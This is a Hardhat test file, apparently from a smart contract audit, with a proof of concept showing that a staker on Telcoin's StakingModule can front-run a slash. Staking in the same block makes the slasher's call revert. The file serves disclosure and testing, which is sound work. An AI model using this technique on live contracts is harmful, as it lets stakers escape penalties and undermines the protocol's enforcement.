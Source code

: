 ```javascript
  let stakingContract
  let SLASHER_ROLE

  beforeEach("setup", async () => {
    [deployer, alice, bob] = await ethers.getSigners()

    //Deployments
    const TELFactory = await ethers.getContractFactory("TestTelcoin", deployer)
    const StakingModuleFactory = await ethers.getContractFactory(
      "StakingModule",
      deployer
    )
    telContract = await TELFactory.deploy(deployer.address)
    await telContract.deployed()
    stakingContract = await upgrades.deployProxy(StakingModuleFactory, [
      telContract.address,
      3600,
      10
    ])

    //Grant SLASHER_ROLE to Alice
    SLASHER_ROLE = await stakingContract.SLASHER_ROLE()
    await stakingContract
      .connect(deployer)
      .grantRole(SLASHER_ROLE, alice.address)

    //Send some TEL tokens to Bob
    await telContract.connect(deployer).transfer(bob.address, 1)

    //Setup approvals
    await telContract
      .connect(bob)
      .approve(stakingContract.address, 1)
  })

  describe("POC", () => {
    it("should revert during slash", async () => {
      //Disable auto-mining and set interval to 0 necessary to guarantee both transactions
      //below are mined in the same block, reproducing the frontrunning scenario.
      await network.provider.send("evm_setAutomine", [false]);
      await network.provider.send("evm_setIntervalMining", [0]);

      //Bob stakes 1 TEL
      await stakingContract
        .connect(bob)
        .stake(1)

      //Turn on the auto-mining, so that after the next transaction is sent, the block is mined.
      await network.provider.send("evm_setAutomine", [true]);
      
      //Alice tries to slash Bob, but reverts.
      await expect(stakingContract
        .connect(alice)
        .slash(bob.address, 1, stakingContract.address, emptyBytes)).to.be.revertedWith(
          "StakingModule: Cannot exit in the same block as another stake or exit"
        )
    })
  })
})
```
